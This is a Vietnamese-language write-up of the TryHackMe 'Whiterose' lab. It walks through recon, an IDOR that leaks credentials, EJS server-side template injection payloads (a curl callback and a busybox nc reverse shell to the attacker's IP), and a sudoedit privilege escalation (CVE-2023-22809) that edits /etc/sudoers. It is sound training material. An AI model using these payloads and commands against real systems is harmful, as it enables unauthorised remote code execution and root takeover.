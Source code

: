 <div align="center">
    <h1>🌹 TryHackMe Whiterose Writeup 🌹</h1>
</div>


<div align="right">
    <em>📌 By: Hoàng Vũ :).</em>
</div>

## 🚀1. Khởi động target
![Start taget](Images/Start_machine.png)

## 🔍2. Recon
```
nmap -sC -sV 10.10.178.31 
```
![Nmap](Images/Recon_nmap.png)

- Sử dụng nmap quét cổng, thấy 2 cổng mở là `22` và `80`
    - Cổng `22` mở cho dịch vụ `SSH`
    - Cổng `80` chạy máy chủ web ` nginx 1.14.0 (Ubuntu)` qua http
- Truy cập vào địa chỉ ip trang web bằng trình duyệt, thấy được chuyển hướng sang `cyprusbank.thm`.

![Browser](Images/Recon_browser.png)

- Thêm tên miền này vào `etc/hosts` với địa chỉ ip mục tiêu, sau đó truy cập lại.

![hosts](Images/Recon_hosts.png)

- Sử dụng `gobuster` quét thư mục ẩn, tuy vậy có vẻ không có kết quả.

```
gobuster dir -u http://cyprusbank.thm/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```
![gobuster](Images/Subdomain_gobuster.png)

- Sử dụng `ffuf` để quét subdomain.

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://cyprusbank.thm/ -H "Host:FUZZ.cyprusbank.thm" -fw 1 -t 100 -mc 200,301,302
```

![ffuf](Images/Subdomain_ffuf.png)

- Tìm được 2 subdomain là `www` và `admin`, truy cập thử vào 2 subdomain này (Lưu ý, thêm vào `etc/hosts` trước khi truy cập).

- Truy cập `http://admin.cyprusbank.thm/` trả về một `login page`

![login page](Images/Subdomain_admin.png)

- Sử dụng thông tin được gợi ý để đăng nhập `Olivia Cortez:olivi8`
- Đăng nhập thành công, truy cập được vào một số tài nguyên của trang web, trong đó một số bị hạn chế.

![login success](Images/Login_success.png)


## 🔑3. Truy cập trang web
- Thử tìm kiếm tên `Tyrell Wellick`, tuy nhiên, tài khoản hiện tại có vẻ chỉ xem được thông tin `Balance` mà không xem được số điện thoại.

![Tyrell Wellick](Images/Web1.png)

- Kiểm tra một lượt trang web, tại page `messages` với đường dẫn `http://admin.cyprusbank.thm/messages/?c=5` có chứa tham số `c=5` - dấu hiệu có thể bị `IDOR`

![Messages](Images/Web_mess.png)

- Thử giá trị của `c` với các số khác nhau. tại `c=9`, phát hiện thông tin mật khẩu của tài khoản `Gayle Bev`

![IDOR](Images/Web_IDOR.png)

- Đăng nhập vào trang Web bằng tài khoản này, thành công lấy được số điện thoại của `Tyrell Wellick`

![Tyrell](Images/Tyrell_phone.png)

- Submit thành công answer 1

![Tyrell](Images/Tyrell_correct.png)

## 📄4. Truy cập web shell

- Tiếp tục đăng nhập với tài khoản `Gayle Bev`, truy cập được page `Customer Settings` cho phép cập nhật mật khẩu của tài khoản nhân viên.

![setting](Images/WebShell1.png)

- Thử sử dụng `Burp Suite` bắt và kiểm tra payload khi thực hiện cập nhật mật khẩu.

![BurpSuite](Images/Burp_request.png)

- Mật khẩu sau khi cập nhật được hiển thị lại ở response, có thể dẫn tới `XSS`. Tuy vậy nhập thử một số payload XSS thì không thu được kết quả.
- Xóa thử trường `password`, kiểm tra response nhận được thông báo lỗi.

![BurpSuiteEjs](Images/Burp_request2.png)

- Có vẻ lỗi này có liên quan đến template engine `EJS`, có thể dẫn đến `SSTI - Server-Side Template Injection` trong `NoteJs`. Tìm kiếm thêm thông tin, tìm được một số bài viết liên quan: [EJS, Server side template injection ejs@3.1.9](https://github.com/mde/ejs/issues/720)

- Có vẻ lỗi này xuất hiện khi sử dụng biến trong template `EJS` mà không kiểm tra nó tồn tại, thì EJS sẽ ném lỗi `ReferenceError` nếu biến đó không được định nghĩa trong `render()`.
- Ở đây `password` không được truyền vào trong `res.render('template', { ... })` nên nó gây ra lỗi `ReferenceError: password is not defined`
- Dựa vào POC tìm được, ta có payload sau:
```
&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl http://10.21.175.20');//
```
- Trong đó:
    - Web server nhận trực tiếp tham số `settings[view options][...]` từ query hoặc body 
    - Web server không lọc hoặc validate các trường `settings[...]`, nên bạn inject thẳng vào cấu hình của `EJS`.
    - Lợi dụng việc ghi đè cấu hình để kết thúc đoạn EJS template sớm và chèn mã JavaScript tùy ý thông qua đoạn `process.mainModule.require('child_process').execSync(...)`
- Tạo python server và chèn thử payload trên vào request xem nó có chạy thành công không 

![Hoangdeptrai](Images/Ejs_payload.png)

![Hoangdeptrai](Images/Ejs_pythonServer.png)

- Có vẻ payload thực thi thành công, tiến hành tạo `reverse shell`

- Tạo shell trên revshells.com

![Hoangdeptrai](Images/Reverse.com.png)

- Ta được payload:
```
&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 10.21.175.20 1234 -e /bin/sh');//
```
- Chèn payload thông qua `Burp Suite`, listen port: `nc -lvnp 1234`

![Hoangdeptrai](Images/Insert_payload.png)

![Hoangdeptrai](Images/Reverse_shell.png)

- Sau khi nhận `reverse shell` thành công, update shell cho dễ nhìn:

![Hoangdeptrai](Images/Update_shell.png)

- Tìm kiếm web flag, tìm được trong file `/home/web/user.txt`

![Hoangdeptrai](Images/Flag1.png)

![Hoangdeptrai](Images/Flag1.1.png)

## ⚠️5. Leo quyền lên root shell
- Kiểm tra những quyền có thể chạy với sudo qua lệnh `sudo -l`

![Hoangdeptrai](Images/sudo-l.png)

- Có thể thấy ta có quyền chạy `sudoedit` với quyền sudo

- Tìm kiếm xem có lỗ hổng nào có thể khai thác với quyền này không 

![Hoangdeptrai](Images/sudoedit_cve.png)

- `CVE-2023-22809` cho phép leo thang đặc quyền với `sudo 1.8.0 đến 1.9.12p1`

![Hoangdeptrai](Images/CVE-2023-22809.png)
- Kiểm tra phiên bản sudo của máy chủ:

![Hoangdeptrai](Images/sudoedit-v.png)

-> Phiên bản phù hợp, có thể khai thác.
- Sử dụng lệnh:
```
export EDITOR="vi -- /etc/sudoers"
sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

- Trong đó:
    - Biến môi trường `EDITOR` được `sudoedit` sử dụng để xác định trình soạn thảo văn bản
    - `vi -- /etc/sudoers` là cú pháp lợi dụng để ép vi mở file `/etc/sudoers` thay vì file hợp lệ được chỉ định.
    - Mục đích là đánh lừa `sudoedit` mở file tùy ý (`/etc/sudoers`) dù người dùng chỉ được cấp quyền chỉnh sửa `/etc/nginx/sites-available/admin.cyprusbank.thm.`
- Sau khi thành công mở file `/etc/sudoers` bằng `vi`, chèn thêm dòng `web ALL=(ALL:ALL) ALL` với mục đích cho user `web` có toàn quyền `sudo`

![Hoangdeptrai](Images/All_root.png)

- Sau khi chèn thành công, `sudo su` để vào quyền root

![Hoangdeptrai](Images/Sudo-su.png)

- Chiếm quyền `root` thành công, tìm flag trong `/root/root.txt`

![Hoangdeptrai](Images/flag2.png)

![Hoangdeptrai](Images/flag2.2.png)

=> Hoàn thành Lab :) 🔥🔥🔥

![Hoangdeptrai](Images/Complete.png)















